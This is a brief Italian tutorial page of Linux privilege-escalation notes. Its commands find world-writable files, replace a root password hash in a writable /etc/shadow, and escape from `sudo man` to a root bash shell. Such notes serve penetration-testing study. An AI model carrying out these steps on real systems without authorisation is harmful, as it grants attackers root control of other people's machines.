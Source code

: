 
# Linux Privilege Escalation Week Permissions
Dopo aver ottenuto una sessione su un target Linux, possiamo andare a cercare delle credenziali deboli:
```bash
find / -not -type l -perm -o+w            # mostra files che possono essere modiicati da tutti gli utenti nel sistema
# ser il sistema é mal configurato, potremmo trovare il file /etc/shadow modificabile quindi generiamo una password hashata e inseriamola nel file shadow
openssl passwd -1 -salt abc <password>
nano /etc/shadow
# rimuoviamo l'asterisco e al suo posto mettiamo la pasword hashata generata da openssl per poi collegarci a root
su
<password>
```

possiamo vedere che comandi privilegiati usando sudo possiamo usare eseguendo il comando 
```bash
sudo -l
```
potrebbe combarire il comando man che effettivamente é un comando che tutti possono eseguire ed é un comando super user (root) <br>
possiamo sfruttare questa miss configuration aprendo una bash sul manuale
```bash
sudo man <comando>
!/bin/bash
```
